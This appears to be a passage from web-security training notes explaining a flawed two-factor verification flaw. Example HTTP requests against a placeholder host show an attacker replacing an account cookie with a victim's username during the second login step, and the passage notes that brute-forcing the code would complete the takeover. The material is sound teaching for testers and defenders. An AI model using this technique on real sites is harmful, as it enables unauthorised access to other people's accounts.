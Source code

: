 ## Flawed two-factor verification logic

Sometimes flawed logic in two-factor authentication means that after a user has completed the initial login step, the website doesn't adequately verify that the same user is completing the second step.  
  
For example, the user logs in with their normal credentials in the first step as follows:  
```http POST /login-steps/first HTTP/1.1  
Host: vulnerable-website.com  
...  
username=carlos&password=qwerty`  
  
  
They are then assigned a cookie that relates to their account, before being taken to the second step of the login process:  
`HTTP/1.1 200 OK  
Set-Cookie: account=carlos  
  
GET /login-steps/second HTTP/1.1  
Cookie: account=carlos`  
  
  
When submitting the verification code, the request uses this cookie to determine which account the user is trying to access:  
`POST /login-steps/second HTTP/1.1  
Host: vulnerable-website.com  
Cookie: account=carlos  
...  
verification-code=123456`  
  
  
In this case, an attacker could log in using their own credentials but then change the value of the `account` cookie to any arbitrary username when submitting the verification code.  
`POST /login-steps/second HTTP/1.1  
Host: vulnerable-website.com  
Cookie: account=victim-user  
...  
verification-code=123456`  
  
```

This is extremely dangerous if the attacker is then able to brute-force the verification code as it would allow them to log in to arbitrary users' accounts based entirely on their username. They would never even need to know the user's password.  
  
  
>LAB [2FA broken logic](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-broken-logic)
